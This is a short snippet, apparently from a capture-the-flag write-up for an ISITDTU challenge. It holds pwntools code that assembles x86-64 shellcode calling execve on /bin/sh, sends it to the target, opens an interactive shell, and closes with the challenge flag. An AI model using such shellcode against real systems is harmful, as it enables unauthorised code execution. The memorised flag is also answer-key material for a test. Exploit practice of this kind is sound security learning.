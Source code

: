 ```python
payload2 = asm("""
    nop
    nop
    mov rax, 0x68732f6e69622f
    push rax
    mov rdi, rsp 
    xor rsi, rsi
    xor rdx, rdx
    mov rax, 0x3b
    syscall
""")
p.send(payload2)

p.interactive() 
# ISITDTU{95acf3a6b3e1afc243fbad70fbd60a6be00541c62c6d651d1c10179b41113bda}
```


